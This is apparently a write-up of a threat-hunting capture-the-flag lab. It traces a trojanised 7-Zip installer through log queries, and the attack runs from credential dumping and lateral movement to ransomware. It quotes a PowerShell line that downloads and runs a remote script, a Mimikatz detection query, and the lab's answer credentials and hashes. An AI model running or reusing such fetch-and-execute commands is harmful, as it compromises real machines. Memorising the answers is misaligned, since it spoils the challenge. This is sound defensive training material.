# Hunting installed malicious software

Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realising that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application. 

Last September 26, 2023, one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. 

## Investigation

Multiple users can use one computer, so first identifying the host gives you the investigation scope.



**Question : What is the URL of the malicious software that was downloaded by the victim user?**

**KQL** : WKSTN-03 and process.name : chrome.exe and http*

 it its a web browsing download we just dont know weather it was an http or an https connection. So I thought http* would be a safe choice and it was :)



the url was **http://www.7zipp.org/a/7z2301-x64.msi**

**Question: What is the IP address of the domain hosting the malware?**

Lets visualize the DNS data

**KQL** : network.protocol : dns

and add following tables

- dns.question.registered_domain.keyword
- dns.resolved_ip.keyword



**206.189.34.218**

**Question: What is the PID of the process that executed the malicious software?**



we already know that the file name *7z2301-x64.msi* was downloaded 

**KQL** : WKSTN-03 AND process.name : chrome.exe and http*

- process.command_line

- process.parent.command_line
- process.pid

Then set the time older to new so we can follow the process.

**2532**

**Question : Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?**

following the same query we see that 

**powershell.exe iex(iwr http://www.7zipp.org/a/7z.ps1 -useb)**

**Question: The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?**

**KQL** : WSKTN-03 AND process.parent.command_line : powershell.exe

keep the previous added column 



**C:\Windows\Temp\7zlegit.exe**

**Question: What is the name of the service that was installed?**

This is easy one already on the screen.



**7ZService**

**Question : The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?**

The 7zlegit service is what we are looking for. So lets check the message for this service.



**SYSTEM**

**Question : After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?**

Basically here we can query for lssas dump.

**KQL** : *lsass.dmp*



**Invoke-PowerExtract**

**Question: What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)**

**KLQ** : process.command_line : *mimikatz* OR
process.command_line : *sekurlsa* OR
process.command_line : *lsass* OR
process.name : mimikatz.exe

The above query hunt for potential usage of Mimikatz for credential dumping.



**james.cromwell:B852A0B8BD4E00564128E0A5EA2BC4CF**

**Question : After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?**

**KQL** : winlog.event_id : 1



After a bit we can see that after “james.cromwell”s acc the next one was “anna.jones”.
Here we can see the modification with the psw.



**pwn3dpw!!!**

**Question : What is the name of the workstation where the new account was used?**

**KQL** :winlog.event_id: 1 AND user.name:anna*



We can see that the attacker switched from WKSTN-03 to WKSTN-02.

**WKSTN-02**

**Question : After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?**

till using the Sysmon Event ID 1 scroll down till you find this section related to anna.



**SSF\itadmin:NoO6@39Sk0!**

**Question : Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?**

Just keep digging Annas logs down you will come across this



**Invoke-SharpKatz.ps1**

**Question : What is the AES256 hash of the domain admin based on the credential dumping output?**

We know that Mr Hall is the domain admin user.

**KQL** : "*Invoke-SharpKatz*" AND message:"*hall*"

Once we got the res we can see the AES256 within the log



**f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534**

**Question: After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?**

Much much earlier we came across a file called bomb.exe. Also within the ID 1 investigation we can find that too run ba anna.johnes.



Here we can see that some encrypting is going on.

How to count them.

By encrpting it creates event ID 11

**KQL** : bomb.exe AND winlog.event_id:11



But if you browesed through the list of files it has 2 files which are not encrypted so you have to deduct those. Therefore the answer is.

**46**

## conclusion
The investigation showed that the incident began when the user downloaded a malicious version of 7-Zip from an untrusted website. The installer executed PowerShell commands that downloaded additional payloads, created a malicious service, and established attacker access. The attacker then dumped credentials from LSASS, used stolen hashes to move laterally between workstations, and gained domain administrator privileges. Finally, ransomware was deployed across the environment, resulting in the encryption of 46 files.